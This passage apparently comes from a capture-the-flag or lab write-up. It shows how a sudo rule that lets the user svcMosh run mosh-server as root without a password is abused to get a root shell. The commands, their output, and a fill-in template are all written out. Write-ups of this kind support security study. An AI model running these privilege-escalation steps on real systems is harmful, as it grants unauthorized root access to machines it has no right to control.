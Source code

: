 This is critical, svcMosh can run /usr/bin/mosh-server **with root privileges and without a password**.

---

## Privilege Escalation

I exploited this by running:

```
sudo /usr/bin/mosh-server new -s /bin/bash
```

Output:

```Warning: SSH_CONNECTION not found; binding to any interface.

MOSH CONNECT 60002 qldECKNOx1HiI/IQdQbSFg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]

[mosh-server detached, pid = 2185]
```

Then connected to the root shell with:

```
export MOSH_KEY='qldECKNOx1HiI/IQdQbSFg'  
mosh-client 127.0.0.1 60002
```
I now had an interactive **root shell**:

**Note:**  When running `mosh-server`, it will generate a **unique token** (the `MOSH_KEY`) and may bind to a **different UDP port** each time typically in the 60000–61000 range.

Be sure to copy the exact `MOSH CONNECT` values it gives you.  
Then use:

```
export MOSH_KEY='your_generated_token_here'
mosh-client 127.0.0.1 your_udp_port_here
```

If the port or key doesn’t match, the connection will fail with a “Nothing received from server” error.
